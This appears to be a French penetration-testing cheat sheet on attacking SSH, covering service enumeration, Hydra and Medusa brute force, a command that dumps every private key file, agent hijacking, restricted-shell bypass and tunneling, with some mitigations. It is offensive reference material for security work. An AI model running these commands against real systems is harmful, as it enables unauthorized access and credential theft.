

Ce document détaille les vecteurs d'attaque et les méthodes d'énumération liés au protocole **SSH**.



## Détection et Analyse

### Analyse du service avec Nmap
```bash
nmap -p 22 --script=ssh-hostkey,ssh-auth-methods,ssh2-enum-algos target.com
```

| Méthode | Description |
| :--- | :--- |
| **ssh-hostkey** | Récupère les empreintes des clés hôtes |
| **ssh-auth-methods** | Liste les méthodes d'authentification supportées |
| **ssh2-enum-algos** | Liste les algorithmes de chiffrement supportés |

### Analyse de version
```bash
nc target.com 22
```

> [!warning] Versioning
> La version **SSH** ne garantit pas la vulnérabilité, vérifier les patchs spécifiques à la distribution.

## Énumération des utilisateurs

> [!warning] Limitations
> L'énumération d'utilisateurs via **SSH** est souvent patchée sur les systèmes modernes.

### Énumération via Nmap
```bash
nmap -p 22 --script=ssh-brute --script-args userdb=users.txt target.com
```

### Énumération via Metasploit
```bash
use auxiliary/scanner/ssh/ssh_enumusers
set RHOSTS target.com
set USER_FILE users.txt
run
```

## Bruteforce des identifiants

> [!danger] Blocage IP
> Attention au blocage IP lors du bruteforce (**Fail2Ban**).

### Bruteforce avec Hydra
```bash
hydra -L users.txt -P passwords.txt ssh://target.com -t 4
```

### Bruteforce avec Medusa
```bash
medusa -h target.com -U users.txt -P passwords.txt -M ssh
```

### Bruteforce avec Nmap
```bash
nmap -p 22 --script=ssh-brute --script-args userdb=users.txt,passdb=passwords.txt target.com
```

## Authentification par clé privée

> [!danger] Accès système
> La recherche de clés privées nécessite des droits de lecture sur le système de fichiers.

### Recherche de clés sur le système
```bash
find / -name "id_rsa*" -exec cat {} \; 2>/dev/null
find / -name "*.pem" -o -name "*.rsa" -o -name "id_rsa*" 2>/dev/null
```

### Connexion avec clé privée
```bash
ssh -i id_rsa user@target.com
```

## SSH Tunneling / Port Forwarding (Local/Remote)

Le tunneling permet de contourner les restrictions réseau en utilisant **SSH** comme proxy. Voir la note **SSH Tunneling and Port Forwarding**.

### Local Port Forwarding
Redirige un port local vers une cible distante via le serveur **SSH**.
```bash
ssh -L 8080:localhost:80 user@target.com
```

### Remote Port Forwarding
Expose un port de la machine locale vers le serveur distant.
```bash
ssh -R 9000:localhost:4444 user@target.com
```

### Dynamic Port Forwarding (SOCKS)
Transforme le serveur **SSH** en proxy SOCKS.
```bash
ssh -D 9050 user@target.com
```

## SSH Agent Hijacking

Si l'agent **SSH** est actif sur une machine compromise, il est possible d'emprunter l'identité de l'utilisateur pour se connecter à d'autres serveurs.

### Identification et exploitation
```bash
# Lister les sockets disponibles
find /tmp -name "agent.*" 2>/dev/null

# Exporter la variable d'environnement
export SSH_AUTH_SOCK=/tmp/ssh-XXXXXX/agent.XXXX
ssh-add -l
```

## Configuration des fichiers authorized_keys et known_hosts

L'analyse de ces fichiers permet de cartographier les relations de confiance entre les machines.

### Analyse des clés autorisées
```bash
cat ~/.ssh/authorized_keys
```

### Analyse des hôtes connus
```bash
cat ~/.ssh/known_hosts
```

## Analyse des logs SSH (auth.log)

Utile pour la détection d'intrusions ou l'analyse post-compromission.

### Lecture des tentatives de connexion
```bash
grep "Accepted" /var/log/auth.log
grep "Failed password" /var/log/auth.log
```

## Bypass de restrictions via SSH (ex: restricted shells)

Si l'utilisateur est restreint par un `rbash` ou une commande forcée, il est possible de tenter un bypass.

### Exécution de commande directe
```bash
ssh user@target.com "bash -i"
ssh -t user@target.com "bash --noprofile"
```

## Accès Root

### Vérification de l'accès root
```bash
ssh root@target.com
```

### Mitigation
Désactivation de la connexion directe pour l'utilisateur root dans `/etc/ssh/sshd_config` :
```bash
echo "PermitRootLogin no" >> /etc/ssh/sshd_config
systemctl restart ssh
```

## Exploitation de versions obsolètes

### Identification des vulnérabilités
```bash
nmap -p 22 --script=ssh-hostkey target.com
searchsploit OpenSSH
```

### Mise à jour du service
```bash
apt update && apt upgrade openssh-server
```

## Synthèse des commandes

| Action | Commande |
| :--- | :--- |
| Scanner méthodes auth | `nmap -p 22 --script=ssh-auth-methods target.com` |
| Énumérer utilisateurs | `nmap -p 22 --script=ssh-brute --script-args userdb=users.txt target.com` |
| Bruteforce identifiants | `hydra -L users.txt -P passwords.txt ssh://target.com -t 4` |
| Connexion clé privée | `ssh -i id_rsa user@target.com` |
| Tester accès root | `ssh root@target.com` |
| Rechercher clés privées | `find / -name "id_rsa*" -exec cat {} \; 2>/dev/null` |
| Scanner version | `nmap -p 22 --script=ssh-hostkey target.com` |
| Chercher exploits | `searchsploit OpenSSH` |

Voir également les notes sur **Linux Enumeration**, **Password Attacks**, **SSH Tunneling and Port Forwarding** et **Privilege Escalation**.